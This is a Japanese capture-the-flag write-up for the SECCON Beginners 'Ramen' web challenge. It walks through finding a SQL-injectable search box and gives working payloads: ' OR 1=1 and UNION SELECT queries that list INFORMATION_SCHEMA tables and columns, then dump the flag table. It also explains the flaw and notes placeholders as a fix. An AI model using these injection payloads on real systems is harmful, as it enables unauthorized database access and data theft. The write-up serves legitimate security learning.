 # [Web] Ramen  
指定されたWebページの脆弱性をつく問題です。
ラメーン是非とも食したいところです。

問題URL：https://ramen.quals.beginners.seccon.jp/  
6月前半まで。  
*技術用語：SQL、SQLインジェクション*

## 解答例  
1. SQLの扱いについて、脆弱な検索窓を見つける。
1. DBの種類が、MySQLだろうと、あたりをつける。
1. Mysqlデータベースに登録されているテーブル名を取得し、flagと書かれたテーブルを発見する。  
-- の後ろに空白を忘れないように。
~~~
' union select null, table_name from INFORMATION_SCHEMA.COLUMNS; -- 
~~~
4. テーブルflagのカラム名を取得する。
~~~
' union select null, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME = "flag"; -- 
~~~
5. select文を用いて、出力してflag取得。
~~~
' union select null, flag from flag; -- 
~~~

## 詳細
### 0. この問題について
背景のラーメンの写真が、頗るおいしそうな問題。  
真ん中にあるSQLについて配慮されていない検索窓があるので、そこから悪さをしていきます。  

### 1. SQLの扱いについて、脆弱な検索窓を見つける。
ラーメン屋さんのサイトです。とりあえず、眺めていると真ん中ほどに検索窓があります。  
usernameとぼんやり書かれているので、usernameと打ってみます。  
すると、下に書いてあった店員さんのコメントがなくなってしまいました…。  
次に、せくこん太郎を打ってみますと、一人だけのコメントが出てきました。  
どうやら、どこからか情報を引っ張ってきている模様。  

次に、DBとやり取りしている可能性を考えて、`'`を打ってみます。
すると、phpのエラー文が出てきました。  
つまり、`'`は意味のある文字であることがわかります。  
次にDBの利用を確認するため、以下のSQL文を打ち込んでみます。
~~~
' OR 1 = 1; -- 
~~~
名前を打っていないのに、店員すべてのコメントが出てきました。  
よって、このWebサイトはSQL文の扱いについて、脆弱性を抱えることがわかります。  
flagを取得するために、SQLインジェクションを試してみます。

#### 1-1. SQLインジェクション脆弱性
`'`などSQL文において意味のある文字を適切に処理することを怠った、などにより抱える脆弱性です。  
意図しないSQL文を実行され、情報の窃取や改ざんが行われる恐れがあります。  
今回のWebページの場合、店員のコメント検索の際、以下のようなSQL文が実行されていると思われます。
~~~
select [username], [コメントを示す列] from [テーブル] where username='検索窓からの値（例：せくこん太郎）';
~~~
`'`などが適切に処理されていないため、検索窓から`' OR 1=1; -- `のような文が与えられた際、弾くことができずSQL文の命令として実行されてしまいます。  
対処法としては、入力値を検証する、プレースホルダを用いる、などがあるそうです。  
ちなみに、`' OR 1=1; -- 'は、現在対象となっているテーブルの情報をすべて引っ張ってくる、という命令です。

### 2. DBの種類が、MySQLだろうと、あたりをつける。
DBを扱うことができるシステムは多数あります。  
大きくは統一されていますが、それぞれ特色があり、使用できる構文なども少し異なります。  
ただ、見分け方はわからないです…。  
現段階では、複数のSQL文を試して、ごり押ししています（笑）  

### 3～5. flag取得を目指す。
あたりを付けたMySQLで、flag取得を目指します。
`' OR 1=1; -- `で出るかな？と思ったのですが、甘くなかったです…。  
現在調査しているテーブル上には、先ほどのSQL文よりflagになりそうな行が見つかりませんでした。  
そこで、まず接続しているDBに登録されたテーブル名の一覧を、以下のように取得します。  
この時UNION命令を用いるので、取得するフィールドの数を一致させるようにします。  
今回ですと、2個です。
~~~
' union select null, table_name from INFORMATION_SCHEMA.COLUMNS; -- 
~~~
一覧を眺めると、テーブル名flagという如何にもな如何にもがでてくるので、今度はテーブル名flagの列名を取得します。
~~~
' union select null, COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME = "flag"; -- 
~~~
このテーブルは、列名flagのみでした。  
よって、select文を実行してflagを取得することができます。
~~~
' union select null, flag from flag; -- 
~~~
